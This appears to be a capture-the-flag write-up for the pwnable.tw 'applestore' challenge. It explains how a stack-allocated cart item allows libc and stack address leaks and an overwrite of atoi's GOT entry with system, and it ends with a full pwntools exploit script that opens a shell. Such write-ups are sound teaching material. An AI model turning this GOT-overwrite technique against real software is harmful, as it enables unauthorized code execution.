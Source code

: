 # 📌 **applestore - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  
Check Security Protections
``` bash
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8046000)
    RUNPATH:    b'.'
    Stripped:   No
```

## Program Overview
The program is a shopping cart application with the following five main functions:
1. **Add Item**: Adds a new item to the cart.
2. **Delete Item**: Removes an item from the cart.
3. **Display Bought Items**: Lists all items currently in the cart.
4. **List Available Products**: Displays available products for purchase.
5. **Checkout**: Processes the cart for checkout (not officially supported).

The cart items are stored using a doubly linked list, where each newly added item is appended to the tail of the list. The structure of an item is as follows:
```c
typedef struct item {
    char* name;
    int price;
    struct item *next_item;
    struct item *prev_item;
} item;
```
# Vulnerability Analysis

The vulnerability lies in the **checkout function**. Here's how it works:

1. The function checks if the total price of all items in the cart equals **7174**.
2. If the condition is met, it adds a new item (e.g., "iPhone 8") to the cart.
3. However, the new item is **added differently** compared to the `add item` function:
   - In the `add item` function, items are allocated on the **heap**.
   - In the `checkout` function, the new item is created on the **stack**.
   - The stack address corresponds to the input buffer used in the `handler` function and the input buffer of the `cart` function.

This inconsistency creates an opportunity for exploitation.

---

# Exploitation Plan

## Step 1: Prepare the Cart
1. Add items to the cart such that their total price sums up to **7174**.
2. This will trigger the `checkout` function, causing it to add a new item to the cart with a **stack address** in the doubly linked list.

## Step 2: Leak a Libc Address
1. Send the input `"0x804b033"` to the `handler` function's input buffer.
   - The `atoi` function will convert `0x33` (stopping at the first non-numeric character) to the integer `3`.
   - The value `3` corresponds to the **delete item** function (third choice in the menu).
2. When the item is deleted, the program prints the `name` of the deleted item.
   - In this case, the `name` corresponds to the address `0x804b033`, which points to an entry in the **GOT (Global Offset Table)**.
   - This leaks the address of the `__libc_start_main` function, allowing us to calculate the base address of `libc`.

## Step 3: Leak a Stack Address
1. Use the same method as above, but this time leverage the `cart` function.
   - The previous method leaks the address pointed to by `environ`, which doesn't have a constant offset to the stack for some reason.
   - This allows us to compute the **saved EBP pointer** in the `delete` function.

## Step 4: Overwrite `atoi` with `system`
1. Compute the offset of the **saved EBP** in the `delete` function from the leaked stack addr.
2. Overwrite the `atoi` GOT entry with the address of `system` since the relro check is `Partial RELRO`.
   - This is the easiest way to gain control, as the program uses `atoi` to convert user input into integers for menu choices.
   - After overwriting `atoi`, any input passed to it will be interpreted as a command to `system`.

---

We can use the following Python program to determine the list of items required to trigger the checkout vulnerability. The program recursively searches for a combination of items whose total price equals the target value (in this case, 7174).
``` python
In [21]: def f(index, items_prices , target_number, used) :
    ...:     if target_number == 0 :
    ...:         return True
    ...:     if index >= len(items_prices) :
    ...:         return False
    ...:     flag = 0
    ...:     if target_number >= items_prices[index] :
    ...:         used.append(items_prices[index])
    ...:         flag = f(index, l , target_number - items_prices[index], used)
    ...:         if not flag :
    ...:             used.pop()
    ...:     if not flag :
    ...:         return f(index+1, items_prices, target_number, used)
    ...:     return flag
```
    Args:
        index (int): Current index in the items_prices list.
        items_prices (list): List of available item prices.
        target_number (int): The target total price. (7174)
        used (list): List to store the selected items.

    Returns:
        bool: True if a valid combination is found, otherwise False.
        
## 🔹 **Exploit Code** 
        
``` python
#! /usr/bin/python3.10
from pwn import *

p = process("./applestore_patched")
# p = remote("chall.pwnable.tw", 10104)
libc_elf = ELF("./libc_32.so.6")
prog_elf = ELF("./applestore_patched")

l = [199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 199, 499, 499, 499, 499, 499, 499, 399]
_map = {199: "1", 499: "3", 399: "4"}

for _ in l:
    p.sendlineafter("> ", "2")
    p.sendlineafter("Device Number> ", _map[_])

# pause()
p.sendlineafter("> ", "5")
p.sendlineafter("Let me check your cart. ok? (y/n) > ", "y")
p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 12)
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak[1:5], "little")
print("libc_leak @ ", hex(libc_leak))
libc_base = libc_leak - libc_elf.symbols["__libc_start_main"]
libc_elf.address = libc_base

atoi_got_addr = prog_elf.got["atoi"]
system_addr = libc_elf.symbols["system"]
environ = libc_elf.symbols["environ"]

p.sendafter("> ", p32(0x804b034, "little") + b"\x00" * 12)
p.sendlineafter("Let me check your cart. ok? (y/n) > ", b"y\x00" + p32(environ))
p.recvuntil("27: ")
stack_leak = int.from_bytes(p.recv(4), "little")
print("stack_leak @ ", hex(stack_leak))

delete_saved_ebp = stack_leak - 0x104
print("saved ebp ptr @ ", hex(delete_saved_ebp))

p.sendafter("> ", p32(0x804b033, "little") + b"\x00" * 4 + p32(delete_saved_ebp - 0x0c) + p32(atoi_got_addr + 0x22))
p.sendlineafter("Item Number> ", "28")
p.recvuntil("Remove 28:")

p.sendlineafter("> ", p32(system_addr) + b";sh\x00")

p.interactive()
```
